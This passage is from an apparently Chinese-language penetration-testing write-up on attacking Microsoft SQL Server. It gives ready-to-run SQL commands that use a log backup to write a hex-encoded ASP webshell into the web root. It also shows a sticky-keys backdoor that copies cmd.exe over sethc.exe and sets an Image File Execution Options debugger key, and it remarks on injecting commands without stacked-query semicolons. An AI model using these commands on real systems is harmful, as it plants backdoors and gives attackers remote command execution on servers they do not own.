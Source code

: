 差异备份 2005 和 2008 均没有复现成功

05 会一直报少一个 %> 标记，08 会多一个 <% 然后报错，如果有解决的大佬希望可以告知一下，提前感谢

log 备份

```
alter database testdb set RECOVERY FULL 
backup database testdb to disk = 'c:\bak.bak'
create table cmd (a image) 
backup log testdb to disk = 'c:\aaa.bak' with init 
insert into cmd (a) values (0x3C25657865637574652872657175657374282261222929253E) 
backup log testdb to disk = 'C:\inetpub\wwwroot\shell.asp'

```

两个数据库都可以成功，备份文件小，不容易出现脏数据

0x06 劫持粘滞键
----------

**适用于 2005，服务器开放 3389**

sp_oacreate 复制文件

```
exec sp_configure 'show advanced options', 1;RECONFIGURE
exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\system32\cmd.exe' ,'c:\windows\system32\sethc.exe';

```

xp_regwrite 修改注册表

```
exec xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution
Options\sethc.EXE','Debugger','REG_SZ','c:\windows\system32\cmd.exe';

```

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic18icGiboSLymNfrmsgqOPrOCtqBHgseRqsAq8Ov5O65oZ9ibN1qBv6QV6jD5ARCjHPY28IzsHmqLCrg/640?wx_fmt=png)
----------------------------------------------------------------------------------------------------------------------------------------------

0x07 复现过程中的一些问题
---------------

之前看到过一篇文章是不需要堆叠注入执行命令，而且还要使用 if，然后在测试的时候发现，只要在正确的语句后面接上语句都是可以执行的，不需要;，在 web 上面也是可以的

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic18icGiboSLymNfrmsgqOPrOCZFKmX63oZceqKVFFtRYbia0ojD2Lj1niaI1uibqL7ibm0D2cuaaxTguyAQ/640?wx_fmt=png)

成功添加数据库

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic18icGiboSLymNfrmsgqOPrOC9dpjE6dryaLqXCDA6f92R91k6fAsiaibB8whuiaFQt62zibxB5dk2G3YFA/640?wx_fmt=png)
